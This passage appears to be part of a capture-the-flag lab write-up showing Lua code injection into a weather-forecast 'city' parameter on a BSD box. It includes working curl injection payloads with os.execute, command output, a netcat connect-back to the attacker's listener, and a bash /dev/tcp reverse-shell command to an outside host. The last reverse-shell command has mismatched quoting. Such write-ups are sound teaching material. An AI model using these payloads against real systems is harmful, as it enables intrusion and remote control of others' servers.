 ### Injection POC

To run a command from Lua, [GTFObins](https://gtfobins.github.io/gtfobins/lua/#sudo) shows it’s just `os.execute("[command]")`. Adding that works:

```

oxdf@parrot$ curl -s "http://10.10.10.218/weather/forecast?city=')+os.execute('id')+--"
{"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd

```

To do a more complex payload, I’ll switch to letting `curl` encode my arg for me:

```

oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('id') --" 'http://10.10.10.218/weather/forecast' -s 
{"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)

```

`-G` will force a GET commands, and use the data from `--data-urlencode` in the url instead of in the body.

### Shell

Because the box is BSD, some typical Linux reverse shells won’t work. I’ll start small. Can `nc` connect back to me?

```

oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('nc 10.10.14.11 443') --" 'http://10.10.10.218/weather/forecast' -s

```

At my listener there’s a connection:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.218] 654

```

This isn’t a shell, but I know that the box has netcat and can connect to me. I could try `-e /bin/bash`, but it doesn’t work. Running `nc -h 2>&1` shows the `-e` option isn’t there. My goto Bash shell actually does give a connection back, but then immediately dies:

```

oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('bash -c "bash -i >& /dev/tcp/10.10.14.11/443 0&>1"') 'http://10.10.10.218/weather/forecast' -s

```
